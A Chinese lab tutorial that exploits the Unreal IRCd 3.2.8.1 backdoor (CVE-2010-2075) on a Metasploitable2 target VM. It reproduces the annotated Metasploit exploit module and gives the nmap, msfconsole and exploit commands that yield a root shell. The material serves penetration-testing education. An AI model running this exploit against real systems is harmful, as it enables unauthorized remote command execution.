








# 攻击 Unreal Ircd 服务

## 一、实验简介

### 1.1 实验介绍

本实验在实验楼的 Kali 终端下进行，对实验楼提供的目标靶机 Metasploitable2 的 Unreal Ircd 服务进行渗透扫描和攻击。重点介绍 Unreal Icrd 的攻击原理和流程，实验最后留有相应的推荐阅读和课后作业。

- *注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

本实验通过对实验楼目标靶机 Metasploit 的渗透扫描，找到漏洞 Unreal Ircd 服务，并选择相应的模块进行渗透攻击。本实验的主要知识点如下：

- Unreal Ircd 漏洞原理
- Nmap 渗透扫描基础
- Metasploit 攻击流程
- 渗透成功后验证

### 1.3 实验环境

实验在实验楼的环境中进行，本实验由实验楼提供两台虚拟机，分别是攻击机和目标靶机。这两台虚拟机的主机名称，主机名，以及 IP 地址分别如下：

| 主机     | 主机名称        | 主机名 | IP 地址         |
| -------- | --------------- | ------ | --------------- |
| 攻击机   | Kali Linux 2.0  | Kali   | 192.168.122.101 |
| 目标靶机 | Metasploitable2 | target | 192.168.122.102 |


本实验在实验楼的环境下进行。在实验楼的环境中，采用的实验环境包含两台虚拟机，分别是攻击机和靶机，攻击机和靶机的账户和密码参数思维导图如下：




## 二、环境启动

### 2.1 实验环境启动

本实验的实验环境由实验楼提供，宿主机为 Ubuntu，宿主机上安装有两台虚拟机。它们分别为 Kali Linux 虚拟机和 Metasploitable2 目标靶机。本实验所有的操作，都是在 Kali Linux 下进行的。

首先我们在实验楼宿主机上启动 Kali Linux 和 Metasploitable2，输入如下命令启动攻击机 Kali 和目标靶机：

```
# 启动 Kali Linux 攻击机
sudo virsh start Kali

# 启动目标靶机 Metasploitable2
sudo virsh start Metasploitable2

```



使用 `ping` 命令可以知道 Kali Linux 是否已经完全启动成功，当宿主机 Ubuntn 和 Kali Linux 两台主机能够 ping 通的时候，说明 Kali 已经启动。此时输入命令使用 ssh 进行连接：

```
# 连接 Kali Linux，密码为 toor
ssh root@Kali
```


## 三、 渗透测试

### 3.1 渗透扫描

UnrealIrcd 是一个开源的 IRC 服务器，

Unreal Ircd 服务漏洞原理：

> Unreal Ircd 3.2.8.1 版本中，在 DEBUG3_DOLOG_SYSTEM 宏中包含外部引入的恶意代码，远程的攻击者能够利用这个潜在的木马执行任意代码。

漏洞索引及相关信息链接：

- [CVE-2010-2075](http://www.cvedetails.com/cve/cve-2010-2075)
- [OSVDB-65445](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor#)

漏洞攻击模块链接：

- [unreal_ircd_3281_backdoor.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/irc/unreal_ircd_3281_backdoor.rb)


漏洞攻击模块代码简介（见注释中）：

```
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

# 引入必要的模块 `msf/core`
require 'msf/core'

# 定义 Metasploit 模块类
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  # 初始化模块，设定攻击模块的名称，描述，作者，License及漏洞索引等信息
  def initialize(info = {})
```
super(update_info(info,
'Name'           => 'UnrealIRCD 3.2.8.1 Backdoor Command Execution',
'Description'    => %q{
This module exploits a malicious backdoor that was added to the
Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the
Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th 2010.
},
'Author'         => [ 'hdm' ],
'License'        => MSF_LICENSE,
'References'     =>
[
[ 'CVE', '2010-2075' ],
[ 'OSVDB', '65445' ],
[ 'URL', 'http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt' ]
],
'Platform'       => ['unix'],
'Arch'           => ARCH_CMD,
'Privileged'     => false,
'Payload'        =>
{
'Space'       => 1024,
'DisableNops' => true,
'Compat'      =>
{
'PayloadType' => 'cmd',
'RequiredCmd' => 'generic perl ruby telnet',
}
},
'Targets'        =>
[
[ 'Automatic Target', { }]
],
'DefaultTarget' => 0,
'DisclosureDate' => 'Jun 12 2010'))
```

```
# 默认的配置参数，攻击目标端口号为6667
register_options(
[
Opt::RPORT(6667)
], self.class)
```
  end

  # 攻击过程函数
  def exploit
```

# 连接远程服务器的端口，使用 TCP 方式
connect
```

```
# 打印连接信息
print_status("Connected to #{rhost}:#{rport}...")
banner = sock.get_once(-1, 30)
banner.to_s.split("\n").each do |line|
print_line("    #{line}")
end
```

```
# 发送激活后门程序的命令，使用 sock.put 发送内容
print_status("Sending backdoor command...")
sock.put("AB;" + payload.encoded + "\n")
```

```
# 等待服务器端的回复，如果会话被创建则退出，否则循环等待直到设定的超时时间到则退出
1.upto(120) do
break if session_created?
select(nil, nil, nil, 0.25)
handler()
end
disconnect
```
  end
end
```

下面，我们将进行渗透扫描。渗透扫描在渗透攻击中，占据着非常重要的角色。只有通过渗透目标主机，充分掌握目标靶机的信息，才能更好地为后续渗透攻击打下基础。

渗透扫描，我们使用扫描神器 Nmap 对端口进行扫描。Nmap (Network Mapper(网络映射器) 是一款开放源代码的网络探测和安全审核的工具。它的设计目标是快速地扫描大型网络，你也可以用它扫描单个主机。

首先，我们先在终端中，打开 `postgresql` 服务，在 Kali 终端中，输入命令如下：

```
# 打开 postgresql 服务
sudo service postgresql start

```
接着在实验楼的 Kali 终端中，输入命令，打开 MSF 终端：

```
# 打开终端 MSF
sudo msfconsole
```



使用扫描神器 Nmap 对渗透的目标主机，进行扫描：

```
# 使用 nmap 进行扫描
nmap -sV -T4 target
```



| 参数  | 参数所代表含义                                               |
| ----- | ------------------------------------------------------------ |
| `-sV` | 扫描目标主机端口，并显示详细端口信息                         |
| `-T4` | 设定 nmap 扫描的时间策略，数字为0-6，越大越快。扫描的越慢则越不容易被发现，也不会给目标带来太大的网络流量 |

根据扫描结果，对 `6667` 这个端口服务，进行 `search` 模块搜索（时间会很长，建议直接使用截图中的结果）：

```
# 搜索索要渗透的 ircd ，查找相应的攻击模块
search ircd 
```




在 Kali 的 MSF 终端中，使用 `use` 命令，使用相应的模块，接着再使用 `show options` 命令，显示模块参数信息：

```
# use 命令，使用相应模块
use exploit/unix/irc/unreal_ircd_3281_backdoor

# show options 命令，显示相应的配置信息
show options
```



使用 `set` 命令，设置所要攻击的主机：

```
# 设置目标主机
set RHOST 192.168.122.102
```


一切就绪后，再使用 `exploit` 进行主机攻击：

```
# exploit 命令进行攻击
exploit
```



# 四、验证渗透攻击

### 4.1 验证渗透是否成功

验证渗透是否成功常用的三个命令：`whoami` 和 `hostname` 以及 ip 地址查看命令：`ifconfig`：

```
# 通过 whoami 命令，判断当前用户是谁
whoami

# 通过 hostname 判断当前主机名称
hostname

# 通过 ifconfig 来判断当前主机的 ip 地址
ifconfig

```



由图可知，在输入命令后，`whoami` 对应的值为 `root` 和 `hostname` 以及 ip 地址为 `192.168.122.102`,渗透攻击成功。


## 五、总结

### 5.1 实验总结

在本实验的学习过程中，我们对 Kali 漏洞扫描工具 Nmap 的理解，得到了进一步的加深。对于一些常用的 Nmap 命令，如：

```
nmap -sS -T4 <target ip>
```
本实验主要介绍了渗透攻击 Unreal Ircd 服务的流程。对 Metasploit 的攻击步骤，进一步进行演示，每一个步骤，在实验的讲解中，都配有图片。在学完这个课程后，你至少明白了这些知识点：

- Unreal Ircd 漏洞原理
- Nmap 渗透扫描基础
- Metasploit 攻击流程
- 渗透成功后验证

## 六、推荐阅读

### 6.1 推荐阅读

推荐大家阅读一些关于攻击 Unreal Ircd 服务的文档，文档及相应代码的地址为：

> https://www.exploit-db.com/exploits/16922/

## 七、课后作业

### 7.1 课后作业

通过在实验楼的学习，掌握理论基础的同时，提高了自己的动手能力。在学习了本实验后，还需要做一些课后作业巩固知识。本节课的课后作业为：

- 掌握 Kali 漏洞扫描工具 Nmap 的使用
- 掌握 攻击 Unreal Ircd 服务流程，亲自动手走完攻击流程
- 阅读推荐阅读的课后文档（可选）

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。